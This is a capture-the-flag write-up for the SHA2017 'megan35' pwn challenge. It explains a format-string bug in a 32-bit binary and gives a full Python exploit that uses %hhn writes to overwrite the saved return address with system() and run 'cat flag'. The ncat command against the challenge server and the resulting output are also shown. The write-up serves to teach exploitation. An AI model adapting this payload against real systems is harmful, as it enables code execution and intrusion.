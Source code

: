 ```yaml
---
title: SHA2017 CTF - megan35 (pown 200)
author: Tosh
date: 2017-08-07
tags: ctf,pown,format string
layout: post
---
```


This is my solution for the challenge megan35 from SHA2017 CTF.

# Description of the challenge

We created our own Megan-35 decoding tool, feel free to test it. System is running Ubuntu 16.04, ASLR is disabled.

A service is running on megan35.stillhackinganyway.nl:3535.

Files provided (ELF-32 bits):

- [megan-35](https://repo.t0x0sh.org/ctf/2017-sha/megan-35)

- [libc.so.6](https://repo.t0x0sh.org/ctf/2017-sha/libc.so.6)

Protections :

```
RELRO          Partial RELRO
STACK CANARY   Canary found
NX             NX enabled
PIE            No PIE
RPATH          No RPATH
RUNPATH        No RUNPATH
ASLR           ASLR is disabled
```

# The vulnerability

The program decodes a megan35 string, and print it to stdout. The problem is that the buffer is directly passed to the printf() function which makes the program vulnerable to format string attack.

To build my exploit, I used the script [weird_encodings.py](https://gist.github.com/tunelko/49b7e64c1688d62d0ecd) from a github repository to encode strings in megan-35.

I started to get the base address of libc function from the leak of the format string (by using "%s").

With this address and the libc provided, I'm now able to build a return2libc attack and overwrite the saved-eip with the system() address !

And all is done !


# My exploit

```python
import base64
import sys
import struct

class Megan35:

    def __init__(self):
        megan35 = "3GHIJKLMNOPQRSTUb=cdefghijklmnopWXYZ/12+406789VaqrstuvwxyzABCDEF5"
        b = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/="
        self.srch = dict(zip(b, megan35))
        self.revlsrch = dict(zip(megan35, b))

    def encode(self, pt):
        global srch
        b64 = base64.b64encode(pt)
        r = "".join([self.srch[x] for x in b64])
        return r

# Obtained with a bit of bruteforcing :)
SEIP = 0xFFFFdb5c

# Obtained with leak
SYSTEM = 0xf7e53940

payload = struct.pack('<I', SEIP+3)
payload += struct.pack('<I', SEIP+2)
payload += struct.pack('<I', SEIP+1)
payload += struct.pack('<I', SEIP+0)

FMT = "a;cat flag    ;%0{}x%7$hhn%0{}x%8$hhn
                     %0{}x%9$hhn%0{}x%10$hhn\n".format(220,238,84,263)

payload += Megan35().encode(FMT)

print payload
```

We get :

```
$ python2.7 sploit.py | ncat megan35.stillhackinganyway.nl 3535
  Decrypt your text with the MEGAN-35 encryption.
  sh: 1: }yuqa: not found
  flag{43eb404b714b8d22e1168775eba1669c}
  sh: 1: %0220x%7%0238x%8%084x%9%0263x%10: not found
```
